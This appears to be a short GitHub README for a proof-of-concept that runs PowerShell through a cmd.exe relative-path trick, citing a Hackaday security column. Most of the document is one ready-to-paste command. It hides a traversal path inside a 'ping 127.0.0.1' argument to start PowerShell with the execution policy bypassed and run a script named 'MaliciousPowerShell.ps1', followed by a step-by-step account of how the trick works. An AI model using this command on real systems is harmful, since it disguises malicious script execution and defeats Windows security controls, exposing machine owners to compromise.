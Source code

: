 # Cmdexerelativepathpoc
PowerShell script execution via cmd.exe relative path
This was in Hackaday article:
https://hackaday.com/2020/06/12/this-week-in-security-crosstalk-tls-resumption-and-brave-shenanigans/

This can be run from Windows 10 run copy and paste code
cmd.exe /c "ping 127.0.0.1/../../../../../../../Windows/system32/WindowsPowerShell/v1.0/powershell.exe" -ExecutionPolicy bypass -file c:\temp\MaliciousPowerShell.ps1

Path and file of PowerShell script are variables you can change
c:\temp\MaliciousPowerShell.ps1

cmd.exe will 
1. load a DOS prompt
2. cancel the ping command 
3. Run PowerShell with the Execution Policy in bypass mode
4. Load a PowerShell Script and execute
